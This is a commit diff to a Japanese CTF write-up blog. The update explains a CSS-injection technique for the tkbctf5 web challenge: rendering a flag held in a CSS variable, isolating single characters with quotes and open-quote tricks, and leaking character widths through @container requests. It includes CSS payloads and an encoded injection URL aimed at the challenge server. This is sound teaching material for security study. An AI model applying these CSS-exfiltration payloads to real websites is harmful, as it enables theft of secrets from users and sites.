

Before and after one commit to claustra01/my-ctf-writeups, a Jekyll site: the page built from _writeups/tkbctf5_2026.md, in a window 1280 px wide and 1400 px high, scrolled down 9949 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update: tkbctf5

````diff
--- a/_writeups/tkbctf5_2026.md
+++ b/_writeups/tkbctf5_2026.md
@@ -414,9 +414,27 @@ express()
 CSPを見ると、cssとimgはかなり自由が利くが、他はほぼ何もできない。
 
 さて、どうにかしてリークする方法を考える。
+一般的にCSS Injectionでリークする場合、リーク対象がinput属性であればvalueセレクタを用いたり、p属性などであればLigatureという特定文字だけフォント幅を非常に大きくしてスクロールバーが発生するか否かをオラクルとしたりする[テクニック](https://speakerdeck.com/lmt_swallow/css-injection-plus-plus-ji-cun-shou-fa-falsegai-guan-todui-ce)が有名である。
+
+しかし、この問題ではそもそもflagがCSS変数内にあり、直接これらの手法を用いることはできない。
+そもそも、まずこの`--flag`を描画する必要がある。これは`content`プロパティなどへ変数を渡すことで可能だ。
+```css
+body::before {
+	content: var(--flag);
+	display: block;
+	font-size: 32px;
+	margin-top: 100px;
+	white-space: pre-wrap;
+}
+```
+![](/assets/img/tkbctf5_2026/render_flag.png)
+
+
+続いて、これらを1文字ずつ（順番を失わずに）リークする必要がある。
+上で挙げたLigatureはCSPのfont-srcの制約が厳しい。そこで、どうにかして1文字ずつ描画し、その文字幅をリークする方法を用いる。
 
 まず、separatorに`""`を挿入すると、flagは`"t" "k" "b" "c" "t" "f" ...`のようになる。
-そして、`open-quote`, `no-open-quote`, `close-quote`を用いて良い感じのCSSを設定すると、特定番目の文字だけ描画することができる。
+これをquotesとして、さらに`open-quote`, `no-open-quote`, `close-quote`を用いて良い感じのCSSを設定すると、特定番目の文字だけ描画することができる。
 ```css
 /* index 0 */
 content: open-quote;          /* t */
@@ -440,6 +458,25 @@ def extractor_tokens(index: int) -> str:
         tokens = ["no-open-quote"] * ((index + 1) // 2) + ["close-quote"]
     return " ".join(tokens)
 ```
+
+このCSSを用いると、実際のブラウザでは以下のように描画される。
+```css
+body {
+	width: fit-content;
+	quotes: var(--flag) ""
+}
+
+body:before {
+	content: open-quote;
+	display: block
+}
+```
+
+```
+http://34.170.146.252:36461/?sep=%22%22&css=body%7Bwidth%3Afit-content%3Bquotes%3Avar%28--flag%29+%22%22%7Dbody%3Abefore%7Bcontent%3Aopen-quote%3Bdisplay%3Ablock%7D
+```
+
+![](/assets/img/tkbctf5_2026/render_one_char.png)
 
 これで描画された文字の幅を外部から観測することができれば、その文字を(高々数通りに)決定できる。
 描画された文字幅によって対応するリクエストを飛ばす`@container`を用意し、1文字ずつ描画→リークを試みる。
````
Also changed, not shown: other parts of _writeups/tkbctf5_2026.md (+1 -1 lines), assets/img/tkbctf5_2026/render_flag.png (added), assets/img/tkbctf5_2026/render_one_char.png (added).
